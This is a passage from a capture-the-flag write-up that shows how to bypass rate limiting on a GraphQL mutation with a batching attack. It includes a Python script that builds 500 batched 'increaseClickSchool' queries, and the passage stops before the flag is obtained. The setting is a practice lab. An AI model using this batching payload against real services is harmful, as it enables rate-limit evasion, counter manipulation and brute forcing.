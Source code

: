 This will send a POST request to `/graphql` endpoint and **using the `increaseClickSchool` mutation query to update the number of clicks.**

Now, we can we do to update the number of clicks in "Flag CyberSecurity School" more than 1337??

Since **mutation query** is used to make changes in the server-side, we could pay extra attention on the `increaseClickSchool` mutation query.

**When we send the query too fast, it'll returns the following response:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513134140.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513134153.png)

## Exploitation

That being said, it has implemented rate limiting.

Hmm that's weird!!

**Can we bypass that??**

Yes we can, and it's an attack in GraphQL: ***GraphQL Batching Attack***

**In [Paulo A. Silva](https://checkmarx.com/blog/didnt-notice-your-rate-limiting-graphql-batching-attack/) blog, we could send multiple queries:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513134441.png)

**Let's try that!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513134450.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513134500.png)

Oh!! it works!!

**Now, let's copy those mutation query more than 1337 times, and we should able to get the flag!**

**Generating payload Python script:**
```py
#!/usr/bin/env python3

if __name__ == '__main__':
    batchingPayload = '''{"query":"mutation { increaseClickSchool(schoolName: \\"Flag CyberSecurity School\\"){schoolId, nbClick} }"},'''
    lastBatchingPayload = '''{"query":"mutation { increaseClickSchool(schoolName: \\"Flag CyberSecurity School\\"){schoolId, nbClick} }"}'''
    print(f'[{batchingPayload * 499}{lastBatchingPayload}]')
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513135037.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513135136.png)

We're very close!
